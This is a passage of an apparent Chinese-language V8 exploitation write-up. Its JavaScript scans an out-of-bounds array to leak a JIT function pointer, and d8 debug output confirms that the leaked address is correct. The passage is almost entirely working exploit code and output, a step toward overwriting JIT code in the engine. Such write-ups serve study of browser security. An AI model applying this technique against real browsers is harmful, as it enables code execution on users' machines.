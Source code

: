 ```
        }
    }
) });

let jit_func_obj_ptr = 0;
for (let i = 0; i < maxSize; i++) {
    let val = Int64.fromDouble(oobArray[i]);
    if (val == 0x432100000000) {
        console.log('Found', i);
        jit_func_obj_ptr = Int64.fromDouble(oobArray[i + 1]) - 1;
        console.log('JIT Function Pointer: 0x' + jit_func_obj_ptr.toString(16));
        break;
    }
}

console.log("======> objs");
%DebugPrint(objs);

console.log("======> oobArray");
%DebugPrint(oobArray);
```

输出如下，可以看到我们搜到的函数指针和调试打印出来的函数指针一样
```
➜  gn git:(1dab065bb4) ✗ ./d8 --allow-natives-syntax Poc.js     
======> func_to_overwrite
DebugPrint: 0x228b18b298d9: [Function] in OldSpace
 - map: 0x228be2d02519 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x228b18b04611 <JSFunction (sfi = 0x228b52305559)>
 - elements: 0x228b52302251 <FixedArray[0]> [HOLEY_ELEMENTS]
 - function prototype: 
 - initial_map: 
 - shared_info: 0x228b18b282e1 <SharedFunctionInfo func_to_overwrite>
 - name: 0x228b18b27591 <String[17]: func_to_overwrite>
 - formal_parameter_count: 0
 - kind: NormalFunction
 - context: 0x228b18b29489 <FixedArray[9]>
 - code: 0x1af9bdb5f041 <Code OPTIMIZED_FUNCTION>
 - source code: () {
    let sum = 0;
    for (let i = 0;i < 0x100; i++) {
        sum += i;
    }
    return sum;
}

Found 258
JIT Function Pointer: 0x228b18b298d8

======> objs
DebugPrint: 0x228b31286141: [JSArray]
 - map: 0x228be2d02729 <Map(PACKED_ELEMENTS)> [FastProperties]
 - prototype: 0x228b18b05539 <JSArray[0]>
 - elements: 0x228b31294051 <FixedArray[140]> [PACKED_ELEMENTS]
 - length: 100
 - properties: 0x228b52302251 <FixedArray[0]> {
    #length: 0x228b5234ff89 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x228b31294051 <FixedArray[140]> {
           0: 0x228b31294821 <Object map = 0x228be2d0da99>
           1: 0x228b31294849 <Object map = 0x228be2d0da99>
           2: 0x228b31294871 <Object map = 0x228be2d0da99>

            ......
```